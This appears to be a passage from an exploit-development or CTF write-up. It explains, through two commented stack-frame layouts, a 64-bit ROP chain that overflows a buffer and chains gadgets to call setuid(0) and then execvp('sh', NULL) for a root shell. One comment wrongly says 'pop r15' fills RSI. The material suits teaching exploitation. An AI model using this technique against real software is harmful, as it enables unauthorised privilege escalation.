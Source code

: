 Let's take a closer look at stack frame 1.

```bash
## higher memory address ##

# Once the "pop rdi" instruction is finished executing, the
# next instructions is "ret". Since "setuid()" address is the
# next value from stack, the flow of execution will now go
# there completing our command `setuid(0)`.
setuid()

# When the "pop rdi" instruction executes, it will pop
# the next value from the stack into RDI. That next value is
# NULL which is also equal to "0".
NULL

# This contains the address of "pop rdi; ret". Why do need it?
# In 64-bit calling convention, to pass a parameter to a
# function, in this case `setuid()`, we need to put the
# parameter into RDI. Then once its there, the function will
# get it in the form of `setuid(0)`.
pop rdi; ret

# This is the overflow part which will allow us to control the
# next instruction to execute which is on RIP. The next
# instruction will be on top of this.
"allow" + "A"*29

## lower memory address ##
```

Then for stack frame 2.

```bash
## higher memory address ##

# When "ret" executes, it will go to address of instruction
# `execvp()` completing our final function call which is
# `execvp("sh", NULL)`
execvp()

# When "pop r15" executes, it will put NULL into RSI
NULL

# When "pop rsi" executes, it will put NULL into RSI
NULL

# When "ret" instruction executes, it will go to this
# instruction. Why do we need "pop r15"? Actually we don't
# need it. It just happened that there is no gadget which
# consists only of "pop rsi". So for completenes, we have no
# choice but to include also "pop r15" in our ROP chain.
pop rsi; pop r15; ret

# When "pop rdi" instruction executes, it will put "sh" into
# RDI since this is the next value in the stack.
"sh"

# Continuing from previous stack frame, the next instruction
# to execute is "pop rdi; ret". In this case our target
# function call is `execvp()`. It accepts 2 parameters:
#  1. the string we want to execute in this case its
#     `/bin/sh` or just "sh". This should be put to RDI.
#  2. a NULL terminator and must be put to RSI.
pop rdi; ret
```